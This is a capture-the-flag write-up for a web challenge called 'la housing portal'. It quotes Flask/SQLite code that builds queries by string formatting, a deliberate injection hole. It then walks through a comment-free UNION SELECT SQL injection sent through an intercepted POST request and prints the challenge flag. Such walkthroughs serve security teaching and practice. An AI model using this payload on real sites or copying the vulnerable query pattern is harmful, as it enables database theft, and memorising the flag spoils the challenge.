


# la housing portal

Challenge description:



If you click on the link, you will the the page, with its functionalities:



It seems the site is doing a query request to the server, lets look at the source code provided on the chall

```python

@app.route("/submit", methods=["POST"])
def search_roommates():
    data = request.form.copy()
    print(data)
    if len(data) > 6:
        return "Invalid form data", 422

    for k, v in list(data.items()):
        if v == "na":
            data.pop(k)
        if (len(k) > 10 or len(v) > 50) and k != "name":
            return "Invalid form data", 422
        if "--" in k or "--" in v or "/*" in k or "/*" in v:
            return render_template("hacker.html")

    name = data.pop("name")

    roommates = get_matching_roommates(data)
    return render_template("results.html", users=roommates, name=name)
```

This is the code that handles the request when you click the submit, you can see that they do not allow characters that are comments for SQL

The code that handles the SQL query:

```python

def get_matching_roommates(prefs: dict[str, str]):
    print(prefs)
    if len(prefs) == 0:
        return []
    query = """
    select * from users where {} LIMIT 25;
    """.format(
        " AND ".join(["{} = '{}'".format(k, v) for k, v in prefs.items()])
    )
    print(query)
    conn = sqlite3.connect("file:data.sqlite?mode=ro", uri=True)
    cursor = conn.cursor()
    cursor.execute(query)
    r = cursor.fetchall()
    cursor.close()
    return r
```

So it seems that every parameter on the site is being added as `PARAMETER = 'INPUT'`, so when you put the name `Lordza` it will be `name = 'LORDZA'`, this means that if you finish the input with `'` you can probably do a SQL injection, the problem is that you can't use comments, and the place where the code is inserting the user input is before a `LIMIT 25` and after a `WHERE`, this means you can't use `JOIN`, and you need to use the last parameter to make the injection to actually work

When you open on burpsuite, you can see the following requests:


Let's take a closer look at the submit request:

```http
POST /submit HTTP/2
Host: la-housing.chall.lac.tf
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://la-housing.chall.lac.tf/
Content-Type: application/x-www-form-urlencoded
Content-Length: 51
Origin: https://la-housing.chall.lac.tf
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

name=asdasd&guests=na&neatness=na&sleep=na&awake=na
```

In the source code, you can see that you don't need all the parameters, and the name is taken off from the list, so you need to inject in another parameter.

We used the intercept on the burpsuite to edit the request.
And encoded the query to url using the `Ctrl+u` when selected the query

The SQL code was inserted after this, which was this one: `' UNION SELECT *,*,*,*,*,* FROM flag WHERE ''='`

In our case, we used the parameter guests and erased all the others, so the query was something like this:

```http
name=asdasd&guests='+UNION+SELECT+*,*,*,*,*,*+FROM+flag+WHERE+''%3d'
```

Then we got the flag printed in all the columns of the site:


`lactf{us3_s4n1t1z3d_1npu7!!!}`
